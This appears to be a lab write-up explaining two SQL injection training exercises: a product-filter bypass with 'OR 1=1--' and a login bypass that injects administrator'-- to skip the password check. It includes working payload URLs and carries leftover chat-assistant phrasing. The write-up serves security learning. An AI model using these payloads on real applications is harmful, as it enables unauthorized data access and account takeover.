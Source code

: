 
## **SQL Injection 1**
### Analysis
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

#### Injected Query 2:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.
- Since `1=1` is always true, the query returns all products, not just those in the 'Gifts' category or those that are released.


### Solution 
```
https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--
```

Certainly! Here's a detailed and formatted analysis for SQL Injection 2:

---

## SQL Injection 2

### Analysis

#### Original Query:
```sql
SELECT firstname FROM users WHERE username='admin' AND password = 'admin'
```
- **Description:**
  - This query retrieves the `firstname` of the user whose `username` is 'admin' and `password` is 'admin'.
  - If the credentials are correct, the user's firstname is returned.

#### Injected Query 1:
```sql
SELECT firstname FROM users WHERE username='' AND password = 'admin'
```
- **Explanation:**
  - The `username` input is manipulated to be an empty string (`''`).
  - This query checks for a user with an empty `username` and the password 'admin'.
  - Since it's unlikely there is a user with an empty username, the query returns no results.

#### Injected Query 2:
```sql
SELECT firstname FROM users WHERE username='admin'--' AND password = 'admin'
```
- **Explanation:**
  - The `--` sequence comments out the rest of the query.
  - This transforms the query to:

	`SELECT firstname FROM users WHERE username='admin'
  - The `AND password = 'admin'` part is ignored, so the query checks only for the `username` 'admin'.
  - If 'admin' is a valid username, the firstname of the 'admin' user is returned, regardless of the password.

#### Injected Query 3:
```sql
SELECT firstname FROM users WHERE username='administrator'--' AND password = 'admin'
```
- **Explanation:**
  - This query is similar to Injected Query 2 but uses 'administrator' as the username.
  - This transforms the query to:
    ```sql
    SELECT firstname FROM users WHERE username='administrator'
    ```
  - The `AND password = 'admin'` part is ignored, so the query checks only for the `username` 'administrator'.
  - If 'administrator' is a valid username, the firstname of the 'administrator' user is returned, regardless of the password.
  - This demonstrates how different default admin usernames can be tried to gain unauthorized access.

### Example of Exploit

- **Vulnerable URL:**
  - Assuming the application's login URL is:
    ```
    https://example.com/login?username=administrator'--&password=admin
    ```
  - **Explanation:**
    - The URL demonstrates how the payload `administrator'--` can be injected into the `username` parameter.
    - The final query executed by the server will be:
      ```sql
      SELECT firstname FROM users WHERE username='administrator'--' AND password = 'admin'
      ```
    - This will bypass the password check and return the firstname of the 'administrator' user.

---

This analysis provides a clear and structured explanation of how the SQL injection works, using examples to demonstrate the impact of the injected queries.